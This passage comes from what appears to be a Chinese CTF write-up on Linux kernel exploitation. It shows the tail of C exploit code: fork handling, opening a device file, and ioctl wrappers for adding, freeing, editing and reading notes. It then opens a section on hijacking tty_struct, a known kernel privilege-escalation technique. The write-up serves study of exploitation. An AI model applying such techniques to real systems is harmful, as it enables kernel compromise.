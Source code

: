 ```
        }
    }
    else if(idFork < 0){
        printf("[*]fork fail\n");
    }
    else{
        wait(NULL);
    }
 
    return 0;
 
}
 
 
int openDev(char* pos){
    int fd;
    printf("[+] Open %s...\n",pos);
    if ((fd = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return fd;
}
 
void addFun(int fd, struct addNote* arg)
{
    ioctl(fd,1,arg);
}
 
void freeFun(int fd, struct editNote* arg)
{
    ioctl(fd,888,arg);
}
 
void editFun(int fd, struct editNote* arg)
{
    ioctl(fd,3,arg);
}
 
void readFun(int fd, struct editNote* arg)
{
    ioctl(fd,4,arg);
} 
```

[](#二、劫持tty_struct结构体)二、劫持 tty_struct 结构体
=========================================

这个真是调了我无敌久。

原理
--
